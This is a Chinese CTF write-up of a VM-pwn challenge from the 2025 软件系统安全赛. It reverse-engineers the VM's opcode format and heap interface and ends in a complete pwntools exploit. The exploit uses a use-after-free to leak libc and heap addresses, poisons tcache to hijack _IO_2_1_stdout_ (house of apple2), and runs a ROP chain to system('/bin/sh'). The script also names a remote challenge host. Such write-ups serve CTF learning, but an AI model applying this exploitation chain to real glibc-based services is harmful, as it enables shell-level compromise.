



# 记一次题型VM-软件系统安全赛-pwn-<vm>-先知社区

> **来源**: https://xz.aliyun.com/news/16480  
> **文章ID**: 16480

---

# 记一次VM-PWN痛苦经历

这是来自2025**软件系统安全赛**一道vm题型，由于全程只有5小时做题，在比赛期间打这个vm题眼睛都看花了，在比赛结束后总历时7小时才做完，能力还是太有限了。

## VM-PWN题

这其实是一些比赛常见题型，大概就是出题人写了一个VM，允许攻击者去写opcode去执行一某些操作，一般是VM套一层heap题或者是VM本身就存在漏洞点。这个题就是VM套的一层heap，通过写opcode去执行add，delete，edite，show等操作。VM题型难点在与正确识别和运用opcode，逆向工程一般都比较大，是个体力活。

### VM存在一些元素

1. opcode（虚拟机识别的操作码，成功看透就是vm题型的关键）
2. reg（虚拟寄存器）
3. 实现opcode的解释器
4. 虚拟数据段
5. 虚拟栈空间

其中读懂opcode和解释器是最重要的一环，是题目的核心

## 题目wp

### 附件

评论区会补发

### WP

打题全程以看ida修复结构体为主，gdb调试为辅（这些全看经验）

main函数：

```
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  init(a1, a2, a3);
  vmdata = mmap(0x64617461000LL, 0x30000uLL, 3, 34, -1, 0LL);
  vmcode = mmap(0x7063000, 0x10000uLL, 3, 34, -1, 0LL);
  mmap3 = mmap(0x73746163000LL, 0x20000uLL, 3, 34, -1, 0LL) + 0x10000;
  read_elf(&vmdata);
  VM(&vmdata);
}

```

起始就是三个mmap，从其他两个附件内读取数据，以附件名可以初步识别mmap对应的意义。下面两个都是以地址传入，上面的三个地址多半是某个结构体的变量，后续看ida可以留意一下。

VM函数：

```
void __fastcall __noreturn VM(__int64 a1)
{
  int v1; // eax
  _BYTE *s; // [rsp+18h] [rbp-8h]

  s = malloc(0xCuLL);
  memset(s, 0, 8uLL);
  do
  {
    if ( menu(a1, s) == -1 )
      break;
    v1 = *s & 3;
    if ( v1 == 3 )
    {
      function_3(a1, s);
    }
    else if ( (*s & 3u) <= 3 )
    {
      if ( v1 == 2 )
      {
        function_2(a1, s);
      }
      else if ( (*s & 3) != 0 )
      {
        function_1(a1, s);
      }
      else
      {
        function_0(a1, s);
      }
    }
    memset(s, 0, 0xCuLL);
    if ( *(a1 + 8) <= 0x7062FFFuLL )
      break;
  }
  while ( *(a1 + 8) <= 0x7162FFFuLL && *(a1 + 64) > 0x73746162FFFuLL && *(a1 + 64) <= 0x73746183000uLL );
  puts("Segment error");
  _exit(0);
}

```

进入VM函数后，进入循环以(*s & 3u)进入不同函数，循环结束都会初始化s一次，第一个函数（menu）那多半是影响(*s & 3u)的函数，进去看一眼

```
......
  v2 = *(unsigned __int8 **)(a1 + 8);
  *(_QWORD *)(a1 + 8) = v2 + 1;
  *a2 = *v2;
  a2[1] = *a2 & 3;
  v3 = a2[1];
  if ( v3 == 3 )
  {
    v9 = *(unsigned __int8 **)(a1 + 8);
    *(_QWORD *)(a1 + 8) = v9 + 1;
    *((_DWORD *)a2 + 1) = *v9;
    if ( (unsigned int)sub_12C9(*((unsigned int *)a2 + 1)) )
      return 0xFFFFFFFFLL;
    *((_DWORD *)a2 + 2) = **(_QWORD **)(a1 + 8);
    *(_QWORD *)(a1 + 8) += 8LL;
  }
  else if ( a2[1] <= 3u )
  ......

```

进来全是地址加解引用的形式去修改数据，结合传入的地址，a1是之前3次mmap的附近的地址，仔细一看是读取的vmcode的数据，if-else语句全是对a2地址处赋值，从这里可以看出正常的开发人员肯定不是这样写代码的，只是ida识别不了结构体，需要我们手动去修复一下（经验论，多修就好了）。如下是我修复后的结果：

```
struct st
{
  char b1;
  char b2;
  char b3;
  char b4;
  int int1;
  int int2;
};

void menu(addr *a1, st *s)
{
  char *vmcode_pos; // rax
  int opt; // eax
  char *v4; // rax
  char *v5; // rax
  char *v6; // rax
  char *v7; // rax
  char *v8; // rax
  unsigned __int8 v9; // [rsp+17h] [rbp-9h]
  unsigned int i; // [rsp+18h] [rbp-8h]

  vmcode_pos = a1->vmcode_pos;
  a1->vmcode_pos = vmcode_pos + 1;              // addr++
  s->b1 = *vmcode_pos;
  s->b2 = s->b1 & 3;
  opt = s->b2;
  if ( opt == 3 )
  {
    v8 = a1->vmcode_pos;
    a1->vmcode_pos = v8 + 1;
    s->int1 = *v8;                              // 取vmcode_pos当前指向的一字节
    if ( !shr_5(s->int1) )
    {
      s->int2 = *a1->vmcode_pos;
      a1->vmcode_pos += 8;                      // vmcode_3{
                                                // int1=char;
                                                // int2=qword;
                                                // }
    }
  }
  else if ( s->b2 <= 3u )
  {
    if ( opt == 2 )                             // vmcode_2{
                                                // int1=char;
                                                // int2=char;
                                                // }
    {
      v6 = a1->vmcode_pos;
      a1->vmcode_pos = v6 + 1;
      s->int1 = *v6;
      v7 = a1->vmcode_pos;
      a1->vmcode_pos = v7 + 1;
      s->int2 = *v7;
      if ( shr_5(s->int1) )
        shr_5(s->int2);
    }
    else if ( s->b2 )
    {                                           // vmcode_1{
                                                // int1=char;
                                                // }
      v5 = a1->vmcode_pos;
      a1->vmcode_pos = v5 + 1;
      v9 = *v5;
      if ( !shr_5(*v5) )
        s->int1 = v9;
    }
    else
    {
      for ( i = 0; i <= 2; ++i )
      {                                         // 循环与运算,高字节为int1的低位，低字节位于int1的高位
        s->int1 <<= 8;
        v4 = a1->vmcode_pos;
        a1->vmcode_pos = v4 + 1;
        s->int1 |= *v4;                         // vmcode_3{
                                                // char1;
                                                // char2;
                                                // char3;
                                                // }
      }
    }
  }
}

```

这里主要是修的a2处的结构体，修好这个函数的意义就很明显了 s->b2 = s->b1 & 3; opt = s->b2;

opcode第一个字节的低两位bit决定解析opcode的方式，三个数据解析结构已经在上述修复后的伪代码处标好了。都是以不同的解析字节长度赋值给我修复的结构体的int1或者int2。退出这个函数后也是根据opcode第一个字节低两位bit决定进入的函数。

function\_3函数：

```
void fun_3(addr *a1, st *a2)
{
  switch ( a2->b1 >> 2 )
  {
    case 1:
      if ( a1->reg[a2->int1] <= a2->int2 )
        a1->FLAG = a1->reg[a2->int1] < a2->int2;
      else
        a1->FLAG = 2;
      break;
    case 2:
      if ( a1->reg[a2->int1] <= a2->int2 )
        a1->FLAG = a1->reg[a2->int1] < a2->int2;
      else
        a1->FLAG = 2;
      break;
    case 3:
      a1->reg[a2->int1] = a2->int2;
      break;
    case 4:
      a1->reg[a2->int1] ^= a2->int2;
      break;
    case 5:
      a1->reg[a2->int1] |= a2->int2;
      break;
    case 6:
      a1->reg[a2->int1] &= a2->int2;
      break;
    case 7:
      a1->reg[a2->int1] <<= a2->int2;
      break;
    case 8:
      a1->reg[a2->int1] >>= a2->int2;
      break;
    case 10:
      a1->reg[a2->int1] += a2->int2;
      break;
    case 11:
      a1->reg[a2->int1] -= a2->int2;
      break;
    case 12:
      if ( if_big_than_0x3000(a2->int2) )
        exit_0();
      a1->reg[a2->int1] = a1->data[a2->int2];
      break;
    case 13:
      if ( if_big_than_0x3000(a2->int2) )
        exit_0();
      a1->reg[a2->int1] = *&a1->data[a2->int2];
      break;
    case 14:
      if ( if_big_than_0x3000(a2->int2) )
        exit_0();
      a1->reg[a2->int1] = *&a1->data[a2->int2];
      break;
    case 15:
      if ( if_big_than_0x3000(a1->reg[a2->int1]) )
        exit_0();
      a1->data[a1->reg[a2->int1]] = a2->int2;
      break;
    case 16:
      if ( if_big_than_0x3000(a1->reg[a2->int1]) )
        exit_0();
      *&a1->data[a1->reg[a2->int1]] = a2->int2;
      break;
    case 17:
      if ( if_big_than_0x3000(a1->reg[a2->int1]) )
        exit_0();
      *&a1->data[a1->reg[a2->int1]] = a2->int2;
      break;
    case 35:
      a1->reg[a2->int1] = *&a1->ptr[8 * a2->int2 + 16];
      break;
    default:
      return;
  }
}

```

这个函数难度还是在于修复结构体，修复好后便一目了然，以opcode第一个字节的高六位bit决定我们进入的case语句。fun\_3函数大致还是是对寄存器的，加值的运算对应“mov rax,0x10”,”xor rax,0x10”这种。后续几个函数直接看我附件里的ida9文件吧，后续其他function函数就是寄存器与寄存器的或者是向数据段传入数据，又或者是push，pop操作。

### 解题过程

执行文件发现有输出和输入，但VM内没有puts，gdb定位一下：

直接r然后ctrl+c暂停调试，finish此函数，输入字符串后就可以找到输出函数的位置：

```
► 0x5555555558de    mov    qword ptr [rbp - 8], rax     [0x7fffffffe308] => 9
   0x5555555558e2    jmp    0x5555555559a7              <0x5555555559a7>
    ↓
   0x5555555559a7    mov    rax, qword ptr [rbp - 8]     RAX, [0x7fffffffe308] => 9
   0x5555555559ab    leave
   0x5555555559ac    ret                                <0x555555555c55>
    ↓
   0x555555555c55    add    rsp, 0x10                    RSP => 0x7fffffffe330 (0x7fffffffe320 + 0x10)
   0x555555555c59    mov    rax, qword ptr [rbp - 8]     RAX, [0x7fffffffe338] => 0x55555555a120 —▸ 0x64617461000 ◂— 'Please input your opcodes:\n'
   0x555555555c5d    add    rax, 0x10                    RAX => 0x55555555a130 (0x55555555a120 + 0x10)
   0x555555555c61    mov    dword ptr [rax], eax         [0x55555555a130] => 0x5555a130
   0x555555555c63    jmp    0x55555555613f              <0x55555555613f>
    ↓
   0x55555555613f    nop
──────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffe2d0 ◂— 0
01:0008│-038 0x7fffffffe2d8 ◂— 0
02:0010│-030 0x7fffffffe2e0 ◂— 0x300
03:0018│-028 0x7fffffffe2e8 —▸ 0x7063226 ◂— '12324124\n'
04:0020│-020 0x7fffffffe2f0 ◂— 0
05:0028│-018 0x7fffffffe2f8 ◂— 0
06:0030│-010 0x7fffffffe300 —▸ 0x555555557229 ◂— endbr64
07:0038│-008 0x7fffffffe308 ◂— 0x20000001b
────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────────────────────────────────────────────────────────
 ► 0   0x5555555558de
   1   0x555555555c55
   2   0x555555556fe7
   3   0x5555555572f3
   4   0x7ffff7dbbd90 __libc_start_call_main+128
   5   0x7ffff7dbbe40 __libc_start_main+128
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg>

```

减去vmmap看到的基地址就可以找到偏移地址：0x0018de

拿到ida按g定位一下



进去一看就是heap函数



free有UAF那不就乱打了吗？edite和read\_str函数都是通过vmdata数据段相互传数据

我们看看怎么去调用这个函数的

交叉索引后发现是在function\_0函数里，这里有很多不同的传参方式：



这里的case ’3‘和case ’5‘就很简单，正好满足所有的heap函数的传参。  
那最开始的vmcode，干了什么呢？

```
#include <stdint.h>  // 为了使用uint32_t
#include <stdio.h>
#include <string.h>

int count=0;

int menu(char *a1)
{   
    char * p;
    int off;
    count++;
    char b2;
    int int1=0;
    long long int2=0;
    b2 = a1[0]&3;
  if ( b2 == 3 )
  {
    int1 = a1[1];                              // 取vmcode_pos当前指向的一字节
    if ( int1 >> 5)
      return -1;
    p = &a1[2];
    int2 = *( unsigned long long *)p;
                       // vmcode_3{
                                                // char;
                                                // qword;
                                                // }
    printf("%.2d : fun_3 -> case : 0x%x (%x,%lx)\n",count,a1[0]>>2,int1,int2);
    off = 10;

  }
  else if ( b2 <= 3 )
  {
    if ( b2 == 2 )                              // vmcode_2{
                                                // char;
                                                // char;
                                                // }
    {
      int1 = a1[1];
      int2 = a1[2];
    printf("%.2d : fun_2 -> case : 0x%x (%x)\n\n",count,(a1[0] & 0xff)>>2,int1,int2);
        off = 3;

    }
    else if ( b2 )
    {                                           // vmcode_1{
                                                // char;
                                                // }
      int1 = a1[1];
    printf("%.2d : fun_1 -> case : 0x%x (%x)\n",count,(a1[0] & 0xff)>>2,int1);
    off = 2;

    }
    else
    {
      for ( int i = 0; i <= 2; ++i )
      {                                         // 循环与运算
        int1 <<= 8;
        int1 |= a1[1+i];

      }
        printf("%.2d : fun_0 -> case : '%c' (%x)\n",count,(a1[0] & 0xff)>>2,int1);
        off = 4;
    }
  }
  return off;
}

int main() {
    char vmcode[] = {0x0F, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x0F, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x0F, 0x02, 0x1B, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xD4, 0x00, 0x00, 0x01, 0xC0, 0x00, 0x00, 0x00, 0x81, 0x00, 0x81, 0x01, 0x2B, 0x01, 0x00, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x12, 0x00, 0x00, 0x0F, 0x02, 0x00, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xCC, 0x00, 0x00, 0x00, 0xA5, 0x01};
    int off=0;
    for(int i=0;i<12;i++)
    {
        off += menu(vmcode+off);
    }

    return 0;
}

```

运行结果：

```
01 : fun_3 -> case : 0x3 (0,1)
02 : fun_3 -> case : 0x3 (1,0)
03 : fun_3 -> case : 0x3 (2,1b)
04 : fun_0 -> case : '5' (1)
05 : fun_0 -> case : '0' (0)
06 : fun_1 -> case : 0x20 (0)
07 : fun_1 -> case : 0x20 (1)
08 : fun_3 -> case : 0xa (1,200)
09 : fun_2 -> case : 0x4 (0)
10 : fun_3 -> case : 0x3 (2,300)
11 : fun_0 -> case : '3' (0)
12 : fun_1 -> case : 0x29 (1)

```

也没什么，调试到最后一步时fun\_1后就开始执行我们输入的opcode了。前面只不过是调用到heap函数内部的write和read罢了。

### 打题思路：

1. free大chunk去拿libc
2. free两个chunk进tcachbin
3. 利用UAF拿heap
4. 利用UAF修改tcachbin的fd去劫持\_IO\_2\_1\_stdout\_结构体打apple2（因为hook在2.35版本下已经没有了，加上exit是系统调用而不是libc的exit所以只能打这题仅存的io函数puts）

### EXP

```
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

#context(os = 'linux', arch = 'amd64', log_level = 'debug')
# context(os = 'linux', arch = 'amd64', log_level = 'debug')
#context.terminal = ['tmux', 'splitw', '-h']

b_case3 = 0x000000000002A93
b_menu1 = 0x0000000000002FB5
b_menu2 = 0x0000000000003099
b_fun0 =  0x0000000000019AD
b_fun3 =  0x000000000002A49
b_heap = 0x000000000001837

file_name = './vm'
b_string ="b _IO_wdoallocbuf\n"
b_slice = []
pie = 1
for i in b_slice:
    if type(i) == int and pie:
        b_string += f"b *$rebase({i})\n"
    elif type(i) == int :
        b_string += f"b *{hex(i)}\n"
    else :
        if type(i) == str:
            b_string += f"b *"+i+f"\n"
#1 => attach
#2 => debug
#3 => remote
choice = 1
if choice == 1 :
    p = process(file_name)
    gdb.attach(p,b_string)
    print(f"Break_point:\n"+b_string)

elif choice == 2 :
    p = gdb.debug(file_name,b_string)
    print(f"Break_point:\n"+b_string)

elif choice == 3 :
    ip_add ="nc1.ctfplus.cn"
    port = 39169
    print("[==^==] remote : "+ip_add+str(port))
    p = remote(ip_add,port)

#-----------------------------------------------------------------------------------------
rv = lambda x            : p.recv(x)
rl = lambda a=False      : p.recvline(a)
ru = lambda a,b=True     : p.recvuntil(a,b)
rn = lambda x            : p.recvn(x)
sd = lambda x            : p.send(x)
sl = lambda x            : p.sendline(x)
sa = lambda a,b          : p.sendafter(a,b)
sla = lambda a,b         : p.sendlineafter(a,b)
#u32 = lambda             : u32(p.recv(4).ljust(4,b'\x00'))
#u64 = lambda             : u64(p.recv(6).ljust(8,b'\x00'))
inter = lambda           : p.interactive()
debug = lambda text=None : gdb.attach(p, text)
lg = lambda s,addr       : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s,addr))
pad = lambda a,b           : print("\x1B[1;36m[+]{} =====> 0x%x \x1B[0m".format(a)%b)
#-----------------------------------------------------------------------------------------

def fun_case(fun,case):
    return p8((case<<2)|(fun&3))

def fun_0(case,int1):
    return fun_case(0,case)+p8(int1//0x10000)+p8((int1//0x100)&0xff)+p8(int1&0xff)

def fun_3(case,int1,int2):
    return fun_case(3,case)+p8(int1)+p64(int2)

def set_reg(reg,vule):
    return fun_3(3,reg,vule)

def show_bss(off,size):
    ret = set_reg(0,1)
    ret += set_reg(1,off)
    ret += set_reg(2,size)
    ret += fun_0(0x35,1)
    return ret

def read_bss(off,size):
    ret = set_reg(0,0)
    ret += set_reg(1,off)
    ret += set_reg(2,size)
    ret += fun_0(0x35,0)
    return ret

def add(size):
    str1 = set_reg(0,size)
    str2 = fun_0(0x33,3)
    return str1+str2

def free(idx):
    str1 = set_reg(0,idx)
    str2 = fun_0(0x33,4)
    return str1+str2

def edit(idx,size):
    ret  = show_bss(7,5)#输出'input'
    ret += read_bss(0x100,size)
    ret += set_reg(0,idx)
    ret += set_reg(1,0x100)
    ret += set_reg(2,size)
    ret += fun_0(0x33,5)
    return ret

def show(idx,size):
    ret  = show_bss(0x12,9)#输出'opcodes:\n'
    ret += set_reg(0,idx)
    ret += set_reg(1,0x500)
    ret += set_reg(2,size)
    ret += fun_0(0x33,6)
    ret += show_bss(0x500,size)
    return ret

payload  = add(0x458)#0
payload += add(0x3f8) #1
payload += add(0x3f8) #2
payload += free(0)
payload += free(1)
payload += free(2)
payload += add(0x458)#3
payload += show(3,8)
payload += show(1,8)
payload += edit(2,8)
payload += add(0x3f8)#4
payload += add(0x3f8)#5
payload += edit(5,0x180)
payload += edit(0,0x3f8)
payload += fun_3(0,1<<6,0)

payload += add(0xf8)
sla("Please input your opcodes:\n",payload)

def edi_payload(idx,size,payload):
    sa("input",payload.ljust(size,b'\x00'))
    print(f"=== edit chunk [{idx}] ===")

def leak_addr():
    ru("opcodes:\n")
    addr = u64(rv(8))
    print(f"=== get_addr: {hex(addr)} ===")
    return addr
# edi_payload(0,0xf8,b'a'*0xf8)
libc = leak_addr()-(0x7fab61481ce0-0x7fab61267000)
heap = leak_addr()<<12

pad("libc",libc)
pad("heap",heap)

IO_stdout = libc + 0x21b780
IO_wfile_jumps = libc + 0x2170c0
system = libc + 0x050d70
rdi = libc + 0x000000000002a3e5
rsi = libc + 0x000000000002be51
rdx = libc + 0x0000000000170337
leave = libc + 0x000000000004da83
ret = leave+1

rop = p64(rdi)+p64(heap+0x2c0)+p64(ret)+p64(system)

edi_payload(2,0x8,p64((IO_stdout)^(heap+0xb70)>>12))
edi_payload(5,0x180,p64(0xfbad2084)+rop.ljust(0x80,b'\x00')+p64(heap+0x2d0)+b'\x00'*0x10+p64(heap+0x2c0+0x100)+b'\x00'*0x30+p64(IO_wfile_jumps-0x20))
edi_payload(0,0x3f8,b'/bin/sh\x00'+b'\x00'*(0x100+0xe0-8)+p64(heap+0x2c0+0x200)+b'\x00'*(0x18+0x68)+p64(leave))

inter()

```
